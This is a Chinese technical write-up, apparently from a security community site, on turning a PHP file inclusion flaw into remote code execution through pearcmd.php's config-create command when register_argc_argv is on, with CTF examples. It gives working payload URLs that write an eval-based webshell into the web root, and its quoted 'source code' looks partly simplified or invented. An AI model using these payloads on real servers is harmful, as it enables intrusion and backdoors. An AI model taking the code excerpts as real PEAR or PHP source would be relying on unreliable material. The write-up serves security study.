







# PEAR组件在Docker生态中的无文件RCE-先知社区

> **来源**: https://xz.aliyun.com/news/17492  
> **文章ID**: 17492

---

## 前言

传统文件包含漏洞利用通常依赖攻击者上传恶意文件，或利用服务端临时文件（如session.upload\_progress）实现代码执行。但PHP的Pear组件却打破了这一限制：当服务器满足**register\_argc\_argv=On**配置时，攻击者可通过精心构造的URL参数，将Web请求伪装成命令行参数，直接操纵pearcmd.php执行高危操作

## 基础定位与功能概述

PEAR（PHP Extension and Application Repository）是PHP官方维护的代码仓库系统，pearcmd.php是该生态的**核心控制脚本**（路径：/usr/local/lib/php/pearcmd.php），承担着PHP扩展和代码包的全生命周期管理职责。其作用可类比Linux系统中的apt或yum包管理器，但专注于PHP生态。

### 核心功能矩阵

|  |  |  |
| --- | --- | --- |
| 功能类型 | 典型命令 | 作用描述 |
| 包管理 | install | 安装本地/远程代码包（支持.tgz格式） |
|  | uninstall | 卸载已安装包 |
| 依赖管理 | package | 创建包含依赖关系的包定义文件 |
| 配置管理 | config-create | 生成PEAR全局配置文件 |
|  | config-set | 修改运行时配置参数 |
| 仓库管理 | channel-add | 添加第三方代码仓库源 |
| 信息查询 | list | 显示已安装包列表 |
|  | info | 查看指定包元信息 |

### 代码定位示例

```
// pearcmd.php 入口结构
if (php_sapi_name() == 'cli') {
    PEAR_Command::setFrontendType('CLI');
} else {
    PEAR_Command::setFrontendType('HTTP'); // 非CLI环境特殊处理
}
$all_commands = PEAR_Command::getCommands(); // 加载所有可用命令
```

## 代码架构深度解析

### 参数解析机制

通过Console\_Getopt::readPHPArgv()方法实现多环境参数适配，核心逻辑：

```
public static function readPHPArgv() {
    global $argv;
    if (!is_array($argv)) {
        if (isset($_SERVER['argv'])) { // Web环境参数入口
            return $_SERVER['argv'];
        }
        return PEAR::raiseError("参数读取失败");
    }
    return $argv; // CLI原生参数
}
```

*参数注入示例*：访问URL http://target/?+config-create+/<?phpinfo()?>+/tmp/shell.php 将生成：

```
$_SERVER['argv'] = [
    'pearcmd.php', 
    'config-create',
    '/<?phpinfo()?>',
    '/tmp/shell.php'
];
```

### 命令分派流程

```
// 命令执行核心代码片段
$command = PEAR_Command::factory($cmd, $config);
$command->run($cmd, $options, $params);
```

*执行流程图解*：

```
用户输入 → 参数解析 → 命令匹配 → 加载对应命令类 → 执行run()方法 → 输出结果
```

## 核心功能技术实现

### 代码包安装流程

以pear install http://example.com/package.tgz为例：

1. **依赖解析**：读取package.xml中的<deps>节点
2. **文件下载**：使用PEAR\_Downloader类处理远程资源
3. **本地校验**：检查文件MD5与<filelist>定义是否匹配
4. **文件部署**：将文件复制到php\_dir配置路径（默认/usr/local/lib/php）
5. **注册记录**：更新package.xml到php\_dir/.registry

### 配置管理模块

config-create命令的实现代码节选：

```
public function run($command, $options, $params) {
    if (count($params) < 2) {
        return PEAR::raiseError("需要两个参数：文件内容和保存路径");
    }
    $content = $params[0];
    $savePath = $params[1];
    
    if (!file_put_contents($savePath, $content)) {
        return PEAR::raiseError("文件写入失败");
    }
    $this->_config->store($savePath); // 更新全局配置
}
```

*参数验证逻辑*：第一个参数必须为绝对路径格式（以/开头），否则抛出异常。

## 典型应用场景

**场景**：开发者安装邮件处理库

```
pear channel-discover pear.swiftmailer.org
pear install swift/swift
```

*执行结果*：

```
下载 swift-5.4.5.tgz (1.2MB)
...解压中...
文件写入 /usr/local/lib/php/Swift/
成功安装 swift-5.4.5
```

### 攻击利用场景

**漏洞前提**：

* 存在文件包含漏洞：include($\_GET['file']);
* register\_argc\_argv=On

### config-create 命令技术详解

config-create 是 PEAR（PHP Extension and Application Repository）工具链中的核心命令，用于**生成 PEAR 的全局配置文件**。

#### 关键代码段

```
public function doConfigCreate($command, $options, $params) {
    // 参数校验
    if (count($params) < 2) {
        return $this->raiseError("必须提供两个参数：配置内容和保存路径");
    }

    $content = $params[0]; 
    $savePath = $params[1];

    // 路径合法性检查
    if (!preg_match('/^\//', $savePath)) {
        return $this->raiseError("路径必须为绝对路径");
    }

    // 写入文件
    if (!file_put_contents($savePath, $content)) {
        return $this->raiseError("文件写入失败: $savePath");
    }
    
    $this->_config->store($savePath);
    return true;
}
```

|  |  |
| --- | --- |
| 具体表现 | 漏洞成因 |
| 直接写入用户输入的$content | 未做PHP代码检测 |
| 仅检查是否以/开头 | 未限制路径归属目录 |
| 使用Web进程权限写入 | 未校验目标目录所有权 |

### 漏洞利用条件

```
graph LR
    A[文件包含漏洞] --> B{PEAR组件存在}
    B --> C[register_argc_argv=On]
    C --> D[可写目录存在]
    D --> E((攻击成功))
```

**攻击Payload**：

```
http://victim.com/?file=pearcmd.php&+-config-create+/<?=eval($_POST['c']);?>+/var/www/html/backdoor.php
```

*执行结果*：

1. 创建/var/www/html/backdoor.php
2. 文件内容包含WebShell代码
3. 攻击者可通过POST执行任意命令

## 漏洞背景与技术原理

### 特殊环境下的攻击面拓展

在传统文件包含漏洞利用中，攻击者通常依赖session.upload\_progress、phpinfo泄露临时文件路径等手法。但在本场景中存在以下特殊限制：

* 文件后缀白名单限制仅允许包含.php文件
* 服务器环境为Docker容器化部署
* PHP配置register\_argc\_argv=On

这些限制促使我们寻找新的攻击路径。通过研究PHP核心组件发现，Docker默认安装的pearcmd.php组件（路径：/usr/local/lib/php/pearcmd.php）与特定PHP配置的结合，可突破传统防御机制。

### 核心组件交互机制

```
// pearcmd.php核心参数处理流程
$argv = Console_Getopt::readPHPArgv();
if (php_sapi_name() != 'cli') {
    // CGI模式下的参数修正逻辑
    unset($argv[1]);
}
```

当PHP以CGI模式运行时，Console\_Getopt::readPHPArgv()通过$\_SERVER['argv']获取参数。而PHP源码中php\_build\_argv函数的特殊处理逻辑，使得URL的query\_string被解析为命令行参数：

```
// PHP源码片段（main/php_variables.c）
void php_build_argv(char *query_string, zval *track_vars_array)
{
    zval arr;
    array_init(&arr);
    
    char *p = query_string;
    while (p) {
        char *arg = php_strtok_r(&p, "+", &strtok_buf); // 以+号分割参数
        if (arg) {
            add_next_index_string(&arr, arg);
        }
    }
    
    zend_hash_str_update(Z_ARRVAL_P(track_vars_array), "argv", sizeof("argv")-1, &arr);
}
```

该代码揭示了关键机制：URL中的+符号会被解析为参数分隔符，这与传统Web参数传递方式存在本质差异。

## 漏洞利用条件深度解析

### 环境依赖矩阵

|  |  |  |  |
| --- | --- | --- | --- |
| 条件项 | 必要性 | 典型值示例 | 检测方法 |
| PHP版本 | 必要 | ≤7.4（Docker默认环境） | php -v |
| register\_argc\_argv | 必要 | On | phpinfo()  中查看 |
| Pear组件安装 | 必要 | /usr/local/lib/php/pear | file\_exists()  路径检测 |
| 文件包含入口 | 必要 | include($\_GET['file']) | 代码审计 |
| 容器化环境 | 非必要 | Docker镜像 | /.dockerenv  文件存在性检测 |

### 参数注入原理

当访问包含特殊构造的URL时：

```
http://target/?file=pearcmd.php&+config-create+/<?phpinfo();?>+/tmp/shell.php
```

经过PHP核心处理流程：

1. query\_string被解析为file=pearcmd.php&+config-create...
2. php\_build\_argv将+转换为参数分隔符，生成：

```
$_SERVER['argv'] = [
    'pearcmd.php',
    'config-create',
    '/<?phpinfo();?>',
    '/tmp/shell.php'
];
```

* pearcmd.php将这些参数作为命令行指令执行

# 案例

了解一下在web下register\_argc\_argv接受参数的格式

```
<?php
var_dump($GLOBALS);
var_dump($_SERVER['argv']);
```

传入http://192.168.1.112:18089/?file=1=1&2=2+3=3

在开启regiseter\_argc\_argv时，argc，$argv两个变量



可以看到 外部参数的接收是使用+作为分隔符 而不是&

那么对于payload，我们不能使用hackbar或浏览器来发送请求，因为它们会将字符urlencode

使用burpsuite来发包，包含pearcmd.php，用&向其传递参数，用+作为分隔符传递外部参数

### [NSSRound#8 Basic]MyPage





题目可以进行文件包含，现在利用pearcmd来获取shell





### 元旦水友赛

```
<?php

function waf($path){
$path = str_replace(".","",$path);
return preg_match("/^[a-z]+/",$path);
}

if(waf($_POST[1])){
include "file://".$_POST[1];
}
```

原句是：?file=/usr/local/lib/php/pearcmd.php&+config-create+/<?=eval($\_POST[2]);>+/var/www/html/a.php

pear工具里有一个命令叫:config-create,这个命令需要传入两个参数，其中第二个参数是写入的文件路径，第一个参数会被写入到这个文件中

|  |  |  |
| --- | --- | --- |
| **核心文件路径** | /usr/local/lib/php/pearcmd.php | PEAR组件的默认安装路径（Docker环境强制存在） PHP包含漏洞需能访问此路径 |
| **命令触发参数** | &+config-create+/ | &：URL参数分隔符 +：空格替代符（URL编码为%2b） /：伪造绝对路径起始符 |
| **注入载荷内容** | <?=eval($\_POST[2]);?> | 写马 |
| **目标写入路径** | /var/www/html/a.php | 路径 |



成功rce


